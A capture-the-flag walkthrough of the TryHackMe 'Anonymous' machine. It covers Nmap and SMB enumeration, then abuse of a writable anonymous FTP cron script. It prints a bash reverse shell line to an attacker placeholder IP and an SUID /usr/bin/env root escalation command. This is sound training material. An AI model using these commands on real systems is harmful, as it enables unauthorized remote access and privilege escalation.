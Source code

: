 ```yaml
---
title: Anonymous
date: 2021-12-1 11:11:11 +/-TTTT
categories: [CTF, tryhackme]
tags: [ftp, suid]
---
```


Not the hacking group

|Machine Name | Date | Level | Type |
|-------------|-------|------|------|
| Anonymous | 2 Dec 2021 | Medium | ctf |

![infocard](https://tryhackme-images.s3.amazonaws.com/room-icons/876a5185c429c9703e625cb48c39637b.png)


## Reconnaissance

Start the recon with Nmap.

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-07 09:36 EDT
Nmap scan report for 10.10.187.181
Host is up (0.16s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.133.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2021-10-07T13:36:24+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-10-07T13:36:24
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .


```

According to  Nmap output we got SSH, FTP and SMB services to test.

### smb

enumerate the  `pics` share.

```bash
smbclient -L //$ip/
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

```

Log in to `pics` share.

```bash
smbclient //$ip/pics
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun May 17 07:11:34 2020
  ..                                  D        0  Wed May 13 21:59:10 2020
  corgo2.jpg                          N    42663  Mon May 11 20:43:42 2020
  puppos.jpeg                         N   265188  Mon May 11 20:43:42 2020

                20508240 blocks of size 1024. 13306816 blocks available

```

Downloaded those files and check for stego but it's just a rabbit hole.

### ftp

Nmap show's that we can log in as anonymous on the FTP and the FTP server is also writable. Let's log in and check the server.

there is `scripts` folder in the server with some files.

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000          946 Dec 02 14:44 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.

```

We can assume that a cronjob is set for `clean.sh`. let's download all the files and find out what it doing.

`clean.sh` 

```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi

```

This script is checking files in `/tmp` directory and if it found any files then delete it and add the file name to file `removed_files.log` with the date.

FTP server is writable so we can mount it and add our reverse shell in `clean.sh`.

## Gaining Access

Let's Mount FTP server using `curlftpfs`.

`curlftpfs anonymous@$ip mount/`

using vim added bash reverse shellcode.

`bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1`

After some time we get a shell as `namelessone`.

![wwwshel](/assets/thm/anonymous/wwwshell.png)


## Privilege Escalation

### Namelessone to root

After some enumeration, I found out that the SUID bit is set to `/usr/bin/env`.

`/usr/bin/env /bin/sh -p`

Got root.

```bash
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
/usr/bin/env /bin/sh -p
whoami
root
```

## Resources

****blank****